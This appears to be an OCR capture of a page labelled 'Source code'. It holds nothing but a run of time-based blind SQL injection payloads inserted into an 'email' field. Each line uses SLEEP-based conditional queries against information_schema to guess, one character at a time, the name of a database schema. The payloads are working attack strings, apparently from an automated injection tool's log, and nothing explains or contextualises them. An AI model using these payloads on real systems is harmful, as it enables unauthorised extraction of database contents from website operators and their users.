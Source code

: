 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,4,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=102,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,5,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=111,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,6,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=116,SLEEP(0.122010510204),SLEEP(0)) -- -}